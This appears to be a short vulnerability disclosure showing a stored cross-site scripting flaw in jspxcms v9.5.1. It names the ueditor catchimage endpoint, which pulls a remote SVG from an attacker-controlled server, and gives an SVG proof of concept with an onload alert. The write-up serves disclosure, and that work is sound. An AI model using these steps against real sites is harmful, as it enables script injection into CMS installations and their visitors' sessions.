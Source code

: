 Hi i found an cross-site Scripting (XSS) - Stored in jspxcms v9.5.1

What is XSS?

cross-site Scripting (XSS) payload = url + '/cmscp/core/ueditor.do?action=catchimage&source[]=' + 'http://{vps}/{exp-xss.svg}'

First,obtain backend permissions   url = url + '/cmscp/index.do'

![image](https://github.com/Yao-ruo/FIND/assets/94469929/8b6e254b-b4fa-42f2-b422-743dc67365bc)

then we can go to  '/cmscp/core/ueditor.do?action=catchimage'

![image](https://github.com/Yao-ruo/FIND/assets/94469929/74ad3a55-3f28-41ac-8cd7-b1e143b4794a)

Let's create a POC ,name is test.svg

```
<svg xmlns="http://www.w3.org/2000/svg" onload="alert('test-xss')"/>
```

![image](https://github.com/Yao-ruo/FIND/assets/94469929/d88a426c-087e-4095-8bc5-5ece831ebba9)

Now, poyload = url + '/cmscp/core/ueditor.do?action=catchimage&source[]=http://{vps}/test.svg'

![image](https://github.com/Yao-ruo/FIND/assets/94469929/c90aa009-d4b6-4a3e-8d5f-ba69e4e7f69a)

We will get `/uploads/1/image/public/202308/20230823010213_ad8vxb2h7l.svg`

Then access this directory

![image](https://github.com/Yao-ruo/FIND/assets/94469929/dd249689-0352-478f-a976-ba7325fcd4d7)
